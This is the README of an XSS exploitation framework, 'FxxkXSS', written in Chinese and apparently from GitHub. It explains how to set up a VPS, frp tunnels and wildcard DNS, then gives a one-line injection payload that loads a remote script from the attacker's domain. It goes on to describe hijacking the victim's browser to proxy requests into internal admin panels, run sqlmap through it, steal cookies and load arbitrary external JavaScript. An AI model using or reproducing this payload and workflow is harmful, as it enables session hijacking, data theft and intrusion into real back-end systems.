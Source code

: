 # fuckxss

> 这是一个用来尽可能最大化xss危害的小工具，废话不多说了看下面的介绍吧~

## 直接上手跑Release

#### 需要准备的

1. 一台公网服务器（vps）
2. 一个有证书（非必要）且能进行泛解析的域名
3. frp或其他内网穿透服务


如果要傻瓜式一点的可以看视频：[【分享】FxxkXSS，一个深入利用后台XSS的工具](https://www.bilibili.com/video/BV1nh411h7pZ)


#### 下载

先去release下一下已经编译好了的，这里只编译了win平台的，对于Mac或者Linux可能需要看一下下面的直接跑源码，→ [release](https://github.com/Yeuoly/FxxkXSS/releases/tag/1.0.0)

下到的应该是一个压缩包，我们将其解压，然后找到里面的fxxkxss.exe，点开！

看到的应该是这样的

![static/img/index.png](static/img/index.png)


#### 配置frp

然后我们需要一个跑在有公网ip的服务器上的frp，配置服务器上的frp为如下

```yaml
[common]
token = xxxx
bind_port = 33333
bind_addr = 0.0.0.0
```

token可以看做一个秘钥一样的东西，这样别人就不能轻易连接自己的frp服务，bind_port是frp用于和用户通讯的端口，0.0.0.0即默认对所有ip

然后启动

```bash
./frps -c frps.ini
```

然后在跑fxxkxss的机器上启动frp，配置如下

```yaml
[common]
server_addr = 服务器的ip
server_port = 之前的端口 #33333

[xssclient]
type = tcp
local_ip = 127.0.0.1
local_port = 10091
remote_port = 25567

[xssstatic]
type = tcp
local_ip = 127.0.0.1
local_port = 10092
remote_port = 25568
```

启动

```bash
./frpc -c frpc.ini
```


#### 域名解析

假设我们现在的域名是 xss.com，那么新建一个解析 xss.xss.com -> 你的vps<br>

新建一个解析 *.localhost.xss.com -> 127.0.0.1 （重点，要求一个到127.0.0.1的泛解析）


#### 配置fxxkxss

然后我们修改fxxkxss的配置为如下

![](static/img/config.png)

xssclient的remote_port与WS外网端口对应，local_port与WS内网端口对应<br>

xssstatic的remote_port与资源外网端口对应，local_port与资源外网端口对应 <br>

资源域名填上面的 xss.xss.com，代理域名填localhost.xss.com<br>

如果有需要的话，把HTTPS/WSS打开，但是一定要给出证书！<br>

万一出现一启动就报错的问题，将下面这个文件删了再重启：<br>

C:\Users\\你的用户名\AppData\Roaming\fuckxss\config.json


#### 开始玩吧~

准备好一个要被xss的网页，并准备好一句话xss：

```javascript
document.body.appendChild(document.createElement('script')).src='http[s]://资源域名:25568/embed.js'
```

当执行了这么一句话以后，我们就可以在下面这个地方发现被xss的浏览器

![](static/img/getshell.png)

且这里可以发现其编号为0，那么我们可以尝试着向

http.80.www.baidu.com.s0.localhost.xss.com:10093发一个请求看看，fxxkxss会将这个请求解析为http://www.baidu.com:80，然后转化为下面这段代码，最后丢给浏览去执行，并返回结果

```javascript
var xml = new XMLHttpRequest() || new ActiveXObject('MicroSoft.XMLHTTP');
xml.open('GET', 'http://www.baidu.com:80')
xml.send()
xml.onreadystatechange = function(){
    //do something
}
```


那么假设客服后台有一个SQL注入，但是用xss注入数据麻烦的一批，那么就可以用到fxxkxss的这个功能，假设客服后台存在api.xxx.com/getinfo存在注入，那么我们用sqlmap跑这个url：http.80.api.xxx.com.s0.localhost.xss.com:10093/getinfo<br>


那么问题来了，怎么找注入呢？可以用到fxxkxss的代理模块，首先使用

```javascript
window.location.href
```

获取客服后台地址（假设为api.xxx.com/home），然后使用指令

```javascript
/generate/proxy_url http://api.xxx.com/home
```

我们就能获取到一个代理链接，http.80.api.xxx.com.s0.xss.com:10093/home<br>

我们在这个链接上再加上?fxxkxss_proxy=true，即http.80.api.xxx.com.s0.xss.com:10093/home?fxxkxss_proxy=true<br>

再拿浏览器去直接访问就好了，不出意外的话会得到一个跟客服后台一模一样的界面，客服能看到什么你就能看到什么， 你摁了什么按钮就相当于客服用了什么按钮，这个功能的底层原理就是 hook XMLHttpRequest配合fxxkxss的代理

## 跑源码

```bash
# 安装依赖
npm install
yarn
cnpm install #（慎用）

# 以开发模式启动，请保持9080端口不被占用
npm run dev

# 编译
npm run build

```

---

#### [教程点我](https://ylday.srmxy.cn/post-page?pid=c6fc485707af90bd34b57393d8e6b812)

## 支持的指令

现在支持的指令：

/get/plugins 获取浏览器装了的插件

/get/cookie 获取能读到的cookie

/get/browser/type 获取浏览器名

/get/browser/version 获取浏览器版本号

/get/location 获取location.href

/load/js http://xxx.com 加载外部js

/load/css http://xxx.com 加载外部css

/generate/proxy_url url，为url生成代理url

